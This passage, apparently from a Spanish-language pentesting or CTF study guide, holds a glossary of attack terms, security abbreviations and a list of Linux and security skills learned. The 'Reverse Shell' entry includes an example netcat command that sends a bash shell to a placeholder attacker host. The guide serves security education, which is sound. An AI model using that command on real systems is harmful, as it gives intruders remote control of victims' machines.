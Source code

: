 ```yaml
  Definición: "Obtención de permisos superiores a los asignados"
  Ejemplo: "sudo, SUID binaries, kernel exploits"
  Contexto: "Post-exploitation"

Reconnaissance:
  Definición: "Recopilación de información sobre el objetivo"
  Ejemplo: "nmap, whois, DNS enumeration"
  Contexto: "Primera fase del pentesting"

Reverse Shell:
  Definición: "Conexión shell que se inicia desde el objetivo"
  Ejemplo: "nc -e /bin/bash attacker_ip port"
  Contexto: "Maintaining access"

Social Engineering:
  Definición: "Manipulación de personas para obtener información"
  Ejemplo: "Phishing, pretexting, baiting"
  Contexto: "Human factor exploitation"
```

#### Abreviaciones
```yaml
APT: "Advanced Persistent Threat"
CIA: "Confidentiality, Integrity, Availability"
CTF: "Capture The Flag"
CVE: "Common Vulnerabilities and Exposures"
CVSS: "Common Vulnerability Scoring System"
DAC: "Discretionary Access Control"
IDS: "Intrusion Detection System"
IPS: "Intrusion Prevention System"
MAC: "Mandatory Access Control"
OSINT: "Open Source Intelligence"  
RBAC: "Role-Based Access Control"
SIEM: "Security Information and Event Management"
TTPs: "Tactics, Techniques, and Procedures"
VAPT: "Vulnerability Assessment and Penetration Testing"
```

---

## 🏆 CONCLUSIONES

### 🎯 Competencias Desarrolladas

#### Habilidades Técnicas
```yaml
Linux Fundamentals:
  - Navegación en filesystem (pwd, cd, ls)
  - Manipulación de archivos (cat, head, tail)
  - Búsqueda y enumeración (find, grep, locate)
  - Análisis de permisos (stat, chmod, chown)

Security Concepts:
  - Enumeración sistemática
  - Bypass de controles básicos
  - Análisis forense de archivos
  - Documentación de evidencias

Problem Solving:
  - Pensamiento lateral para bypass
  - Múltiples enfoques para un problema
  - Análisis de causa raíz
  - Validación de soluciones
```